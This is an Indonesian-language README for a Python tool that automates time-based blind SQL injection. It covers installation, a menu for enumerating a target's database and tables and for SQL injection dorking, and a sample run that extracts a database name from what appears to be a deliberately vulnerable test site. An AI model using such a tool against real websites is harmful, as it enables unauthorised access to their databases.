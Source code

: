 # blind SQLIpy
Alat blind SQLIpy ini merupakan alat injeksi sql yang menggunakan metode time based blind sql injection metode tersebut membutuhkan waktu yang lama agar bisa mendapatkan sebuah server database. Alat yang saya bangun ini menggunakan bantuan library blinder dan bahasa pemrograman python.

# Di Uji Pada :
- Windows
- Kali Linux

# Penginstallan Pada Windows Dan Kali Linux
```
https://github.com/galihap76/blind-SQLIpy.git
```
Kamu cukup clone dan simpan pada direktori mana pun.

# Penggunaan Pada Windows
```
C:\Users\GalihAp76\blind-SQLIpy>sqli.py
```

# Penggunaan Pada Kali Linux
```
cd blind-SQLIpy
python3 sqli.py
```

# Penyerangan blind SQLIpy
```
 _     _ _           _   ____   ___  _     ___
| |__ | (_)_ __   __| | / ___| / _ \| |   |_ _|_ __  _   _
| '_ \| | | '_ \ / _` | \___ \| | | | |    | || '_ \| | | |
| |_) | | | | | | (_| |  ___) | |_| | |___ | || |_) | |_| |
|_.__/|_|_|_| |_|\__,_| |____/ \__\_\_____|___| .__/ \__, |
                                              |_|    |___/


 [>] Di Koding Oleh : Galih Anggoro Prasetya
 [>] Github         : https://github.com/galihap76




===================================
[+]         blind SQLIpy        [+]
===================================
 [1] CEK INJEKSI URL SASARAN
 [2] DAPATKAN NAMA DATABASE SASARAN
 [3] DAPATKAN NAMA TABEL SASARAN
 [4] DAPATKAN JUMLAH TABEL SASARAN
 [5] DORK INJEKSI SQL
 [6] INFO DAN CONTOH PENYERANGAN
 [7] KELUAR

===================================


[+] pilih nomor yang kamu mau : 2
[+] masukkan URL sasaran pada blind SQLIpy : http://testphp.vulnweb.com/product.php?pic=1
[!] harap tunggu...
[+] nama database pada sasaran :  acuart


[+] pilih nomor yang kamu mau :
```
Penyerangan blind SQLIpy pada nomor 2 untuk mendapatkan nama database sasaran.

# Pemberitahuan Dari Saya
Jika kamu menggunakan alat saya ini harap bersabar dan menunggu untuk mendapatkan server database sasaran karena ini menggunakan metode time based blind sql injection jadi ini juga membutuhkan koneksi internet.
